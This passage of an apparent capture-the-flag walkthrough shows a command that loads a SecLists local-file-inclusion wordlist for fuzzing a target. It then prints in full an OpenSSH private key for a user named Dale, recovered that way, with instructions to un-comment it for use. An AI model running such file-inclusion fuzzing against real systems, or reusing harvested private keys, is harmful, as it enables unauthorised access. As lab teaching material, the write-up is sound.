 ```sh

┌──(bc-here㉿BC-Here)-[~]
└─$ cat /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt | xclip -selection clipboard

```

- This command will copy this huge list

![image-4](https://github.com/user-attachments/assets/b0d64306-53ac-4ea3-8e53-1e997d4d2d24)

- And paste it here

![image-5](https://github.com/user-attachments/assets/bf1f577b-a63b-4dea-a1ff-83c3068e3062)

![image-6](https://github.com/user-attachments/assets/0d9f6c48-244d-44b6-85e1-17767c95203a)

- here we found very interesting id_rsa key
```sh

#Dale id_rsa
#-----BEGIN OPENSSH PRIVATE KEY-----
#b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
#NhAAAAAwEAAQAAAYEAng6KMTH3zm+6rqeQzn5HLBjgruB9k2rX/XdzCr6jvdFLJ+uH4ZVE
#NUkbi5WUOdR4ock4dFjk03X1bDshaisAFRJJkgUq1+zNJ+p96ZIEKtm93aYy3+YggliN/W
#oG+RPqP8P6/uflU0ftxkHE54H1Ll03HbN+0H4JM/InXvuz4U9Df09m99JYi6DVw5XGsaWK
#o9WqHhL5XS8lYu/fy5VAYOfJ0pyTh8IdhFUuAzfuC+fj0BcQ6ePFhxEF6WaNCSpK2v+qxP
#zMUILQdztr8WhURTxuaOQOIxQ2xJ+zWDKMiynzJ/lzwmI4EiOKj1/nh/w7I8rk6jBjaqAu
#k5xumOxPnyWAGiM0XOBSfgaU+eADcaGfwSF1a0gI8G/TtJfbcW33gnwZBVhc30uLG8JoKS
#xtA1J4yRazjEqK8hU8FUvowsGGls+trkxBYgceWwJFUudYjBq2NbX2glKz52vqFZdbAa1S
#0soiabHiuwd+3N/ygsSuDhOhKIg4MWH6VeJcSMIrAAAFkNt4pcTbeKXEAAAAB3NzaC1yc2
#EAAAGBAJ4OijEx985vuq6nkM5+RywY4K7gfZNq1/13cwq+o73RSyfrh+GVRDVJG4uVlDnU
#eKHJOHRY5NN19Ww7IWorABUSSZIFKtfszSfqfemSBCrZvd2mMt/mIIJYjf1qBvkT6j/D+v
#7n5VNH7cZBxOeB9S5dNx2zftB+CTPyJ177s+FPQ39PZvfSWIug1cOVxrGliqPVqh4S+V0v
#JWLv38uVQGDnydKck4fCHYRVLgM37gvn49AXEOnjxYcRBelmjQkqStr/qsT8zFCC0Hc7a/
#FoVEU8bmjkDiMUNsSfs1gyjIsp8yf5c8JiOBIjio9f54f8OyPK5OowY2qgLpOcbpjsT58l
#gBojNFzgUn4GlPngA3Ghn8EhdWtICPBv07SX23Ft94J8GQVYXN9LixvCaCksbQNSeMkWs4
#xKivIVPBVL6MLBhpbPra5MQWIHHlsCRVLnWIwatjW19oJSs+dr6hWXWwGtUtLKImmx4rsH
#ftzf8oLErg4ToSiIODFh+lXiXEjCKwAAAAMBAAEAAAGAGQ9nG8u3ZbTTXZPV4tekwzoijb
#esUW5UVqzUwbReU99WUjsG7V50VRqFUolh2hV1FvnHiLL7fQer5QAvGR0+QxkGLy/AjkHO
#eXC1jA4JuR2S/Ay47kUXjHMr+C0Sc/WTY47YQghUlPLHoXKWHLq/PB2tenkWN0p0fRb85R
#N1ftjJc+sMAWkJfwH+QqeBvHLp23YqJeCORxcNj3VG/4lnjrXRiyImRhUiBvRWek4o4Rxg
#Q4MUvHDPxc2OKWaIIBbjTbErxACPU3fJSy4MfJ69dwpvePtieFsFQEoJopkEMn1Gkf1Hyi
#U2lCuU7CZtIIjKLh90AT5eMVAntnGlK4H5UO1Vz9Z27ZsOy1Rt5svnhU6X6Pldn6iPgGBW
#/vS5rOqadSFUnoBrE+Cnul2cyLWyKnV+FQHD6YnAU2SXa8dDDlp204qGAJZrOKukXGIdiz
#82aDTaCV/RkdZ2YCb53IWyRw27EniWdO6NvMXG8pZQKwUI2B7wljdgm3ZB6fYNFUv5AAAA
#wQC5Tzei2ZXPj5yN7EgrQk16vUivWP9p6S8KUxHVBvqdJDoQqr8IiPovs9EohFRA3M3h0q
#z+zdN4wIKHMdAg0yaJUUj9WqSwj9ItqNtDxkXpXkfSSgXrfaLz3yXPZTTdvpah+WP5S8u6
#RuSnARrKjgkXT6bKyfGeIVnIpHjUf5/rrnb/QqHyE+AnWGDNQY9HH36gTyMEJZGV/zeBB7
#/ocepv6U5HWlqFB+SCcuhCfkegFif8M7O39K1UUkN6PWb4/IoAAADBAMuCxRbJE9A7sxzx
#sQD/wqj5cQx+HJ82QXZBtwO9cTtxrL1g10DGDK01H+pmWDkuSTcKGOXeU8AzMoM9Jj0ODb
#mPZgp7FnSJDPbeX6an/WzWWibc5DGCmM5VTIkrWdXuuyanEw8CMHUZCMYsltfbzeexKiur
#4fu7GSqPx30NEVfArs2LEqW5Bs/bc/rbZ0UI7/ccfVvHV3qtuNv3ypX4BuQXCkMuDJoBfg
#e9VbKXg7fLF28FxaYlXn25WmXpBHPPdwAAAMEAxtKShv88h0vmaeY0xpgqMN9rjPXvDs5S
#2BRGRg22JACuTYdMFONgWo4on+ptEFPtLA3Ik0DnPqf9KGinc+j6jSYvBdHhvjZleOMMIH
#8kUREDVyzgbpzIlJ5yyawaSjayM+BpYCAuIdI9FHyWAlersYc6ZofLGjbBc3Ay1IoPuOqX
#b1wrZt/BTpIg+d+Fc5/W/k7/9abnt3OBQBf08EwDHcJhSo+4J4TFGIJdMFydxFFr7AyVY7
#CPFMeoYeUdghftAAAAE3A0aW50LXA0cnJvdEBwYXJyb3QBAgMEBQYH
#-----END OPENSSH PRIVATE KEY-----
```
- Lets remove the # from the beginning .
